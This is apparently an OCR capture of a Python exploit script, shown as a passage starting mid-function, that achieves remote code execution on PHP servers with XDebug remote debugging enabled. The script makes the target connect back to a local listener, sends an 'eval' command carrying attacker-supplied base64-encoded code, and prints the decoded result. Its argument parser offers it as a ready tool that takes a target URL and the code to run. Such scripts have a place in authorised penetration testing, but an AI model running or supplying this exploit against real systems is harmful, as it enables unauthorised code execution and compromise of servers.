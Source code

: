 ```
            break

        while data:
            eop = data.find(b'\x00')
            if eop < 0:
                break
            blocks.append(data[:eop])
            data = data[eop+1:]

        if len(blocks) >= 4:
            break
    
    return blocks[3]


def trigger(url):
    time.sleep(2)
    try:
        session.get(url + '?XDEBUG_SESSION_START=phpstorm', timeout=0.1)
    except:
        pass


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='XDebug remote debug code execution.')
    parser.add_argument('-c', '--code', required=True, help='the code you want to execute.')
    parser.add_argument('-t', '--target', required=True, help='target url.')
    parser.add_argument('-l', '--listen', default=9000, type=int, help='local port')
    args = parser.parse_args()
    
    ip_port = ('0.0.0.0', args.listen)
    sk = socket.socket()
    sk.settimeout(10)
    sk.bind(ip_port)
    sk.listen(5)

    pool.submit(trigger, args.target)
    conn, addr = sk.accept()
    conn.sendall(b''.join([b'eval -i 1 -- ', base64.b64encode(args.code.encode()), b'\x00']))

    data = recv_xml(conn)
    print('[+] Recieve data: ' + data.decode())
    g = re.search(rb'<\!\[CDATA\[([a-z0-9=\./\+]+)\]\]>', data, re.I)
    if not g:
        print('[-] No result...')
        sys.exit(0)

    data = g.group(1)

    try:
        print('[+] Result: ' + base64.b64decode(data).decode())
    except binascii.Error:
        print('[-] May be not string result...')
```
